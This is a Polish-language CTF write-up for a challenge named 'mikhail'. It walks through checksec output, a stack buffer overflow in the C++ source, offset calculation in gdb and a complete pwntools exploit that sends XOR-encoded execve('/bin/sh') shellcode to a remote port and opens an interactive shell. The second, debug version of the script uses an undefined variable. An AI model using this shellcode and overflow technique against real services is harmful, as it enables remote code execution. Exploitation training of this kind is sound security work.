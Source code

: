 # mikhail write-up

## Wykorzystywane narzędzia

- pwntools
- gdb
- pwndbg
- jakiś disasembler np. IDA Pro, objdump, radare2, Binary Ninja

## Opis zadania

W tym zadaniu dostajemy binarkę która działa po stronie serwera i źródło w C++.  

Programem checksec który instaluje się razem z `pwndbg` można sprawdzić z jakimi zabezpieczeniami program został skompilowany.

```
b@x:~/Desktop/mikhail > checksec story
[*] '/home/b/Desktop/mikhail/story'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
```

Dla nas istotne są rubryki:  

- `Stack` - mówi nam że na stosie nie ma kanarków
- `NX` - NX jest wyłączone, czyli program może wykonywać instrukcje leżące na stosie lub stercie.
- `PIE` - Za każdym włączeniem programu, plik binarny będzie ładowany pod losowym adresem. Między innymi sekcja kodu


## Szukanie podatności

W kodzie programu można zobaczyć 2 linijki:

```C 
    char password[64];
```
a później: 

```
    pass_len = read(0, password, 1000);
```

Co oznacza że program jest podatny na `buffer overflow` i możemy nadpisać adres powrotu na `A` powodując że program zacznie wykonywać instrukcje spod adresu `A`. Niestety nic nam to nie daje bo przez `PIE` i `ASLR` nie wiemy gdzie wskoczyć.  

Analizując dalej widzimy taki kod:

```C
    char const *const msg = "Yay! We encrypted your story! It's secret now at ";
    for(i = 0; i < 49; ++i) {
        password[pass_len + i] = msg[i];
    }

    size_t *const ptr = reinterpret_cast<size_t *>(&password[pass_len + 49]);
    *ptr = reinterpret_cast<size_t>(story);
```

który dopisuje do bufora na stosie `password` wiadomość `Yay! We encrypted your story! It's secret now at ` a poźniej jeszcze jest dodawany wskaźnik na bufor `story`. Jest on zapisywany w postaci little-endian.
Ale tutaj znowu nie ma sprawdzania czy do bufora nie kopiujemy zbyt dużo danych i znowu mamy tutaj podatność buffer overflow.

Oznacza to, że jeśli wybierzemy nasze hasło odpowiedniej długości to wskaźnik na bufor `story` zapisze się w miejscu adresu powrotu z funkcji. Wtedy po wyjściu z funkcji `foo` program zacznie wykonywać kod maszynowy w tablicy znaków `story` .

Tylko jak obliczyć długość hasła?  

Po zdisasemblerowaniu binarki można odnaleźć miejsce w którym właśnie jest zapisywny wskaźnik na `story`:

```
.text:0000000000000A6C                 mov     rax, cs:story
.text:0000000000000A73                 mov     rdx, rax
.text:0000000000000A76                 mov     rax, [rbp+var_30]
.text:0000000000000A7A                 mov     [rax], rdx
```
Za samo wrzucenie wskaźnika do `story` odpowiada instrukcja pod adresem `0000000000000A7A`.  

Spróbujmy podpiąć się debuggerem w to miejsce.

## Debugowanie


Włączmy binarke w gdb. Musimy mieć na uwadze to, że jeśli uruchamiamy proces w gdb to on automatycznie wyłącza ASLRa i PIE. Wtedy adresy które są pokazywane przez disasembler w pamięci procesu załadują się pod adresem o `0x555555554000` większym. (`0x555555554000` jest nazywamy adresem bazowym).  


```
b@x:~/Desktop/mikhail > gdb ./story
```

Ustawiamy breakpoint na `0x555555554a7a`

```
b *0x555555554a7a
```

i na instrukcji `ret` w funkcji `foo`:

```
b *0x555555554aab
```

Możemy teraz urcuhomić program w gdb i podać puste hasło (1-Bajtowe haslo - sam znak nowej lini):
![a](imgs/gdb_beginning.png)

![b](imgs/rax_red.png)

Powyżej widzimy że przy wysłaniu pustego hasła program nadpisuje adres `0x7fffffffd632`.

![c](imgs/returning_from_foo_red.png)

Powyżej widać że adres powrotu znajduje się pod adresem: `0x7fffffffd678`

Obliczmy róźnicę pomiędzy tymi adresami:

```python
In [1]: 0x7fffffffd678-0x7fffffffd632
Out[1]: 70

```
Trzeba wysłać password dłuższe o 70 znaków czyli sumarycznie 71 znaków. 
Możemy sprawdzić w gdb czy obliczyliśmy wszystko poprawnie (wysyłamy 70 znaków `a` i znak nowej lini:

![p1](imgs/p1.png)
Na powyższym obrazku widzimy że adres bufora `story` jest wpisywany tam gdzie jest adres powrotu z funkcji `foo`.

![p2](imgs/p2.png)

Po kontynuowaniu wykonywania programu w gdb widzimy że program wywalił się na próbie wykonywania instrukcji ze sterty, co oznacza że próbował wykonać instukcje z bufora `story`

## Piszemy exploita

Możemy uruchomić binarkę u siebie tak aby nasłuchiwała na porcie 1337 i przekierowywała stdin i stdout na socket:

```b@x:~/Desktop/mikhail > socat TCP-LISTEN:1337,reuseaddr,fork EXEC:./story```

W ten sposób można symulować uruchomienie zadania na serwerze CTFa. Program który czyta z stdin i zapisuje do stdout teraz czyta i zapisuje do socketu na danym porcie.

Pozostało nam jeszcze tylko wstawienie shellcodu do `story` (musimy go jeszcze zxorować z bajtami które są w `password`, bo później w aplikacji jest xorowanie jeszcze raz). Poszukujemy shellcodu `execve("/bin/sh",0,0)` lub podobnego który podmieni nam aktywny proces na `/bin/sh`. Shellcody możemy znaleźć np. na exploit-db.com, wygenerować metasploitem lub użyć [shellcraft z pwntools](http://docs.pwntools.com/en/stable/shellcraft.html)

exploit znajduje się poniżej:  

```python

from pwn import *

r = remote('localhost',1337)
def get_shellcode_execve():
    return "\x48\x31\xc0\x48\x83\xc0\x3b\x48\x31\xff\x57\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x8d\x3c\x24\x48\x31\xf6\x48\x31\xd2\x0f\x05"

shellcode =  get_shellcode_execve()
 

print r.recvuntil("story:")
r.send(xor(shellcode,'e'))
print r.recvuntil("password:")


payload = "e"*71
r.send(payload)
r.interactive()

```


Po zamienieniu `localhost` na adres serwera i zmienieniu portu, exploit również zadziała. Możemy teraz wpisać np. `ls`.  


A jeśli coś nam nie działa to możemy debugować exploita w taki sposób:

```python
from pwn import *


commands = [
  "bp 0x555555554aab",
  "c"
]

gdb.debug('./story',gdbscript="\n".join(commands))

def get_shellcode_execve():
    return "\x48\x31\xc0\x48\x83\xc0\x3b\x48\x31\xff\x57\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x8d\x3c\x24\x48\x31\xf6\x48\x31\xd2\x0f\x05"

shellcode =  get_shellcode_execve()
 

print r.recvuntil("story:")
r.send(xor(shellcode,'e'))
print r.recvuntil("password:")


payload = "e"*71
r.send(payload)
r.interactive()
```

Powinno to nam dodatkowo uruchomić dodatkowe okno z gdb.

## Przydatne polecenia gdb 

- `b` - ustawiamy breakpoint
- `c` / `continue` - kontynuujemy wykonywanie programu
- `r` / `run` - uruchamiamy program od początku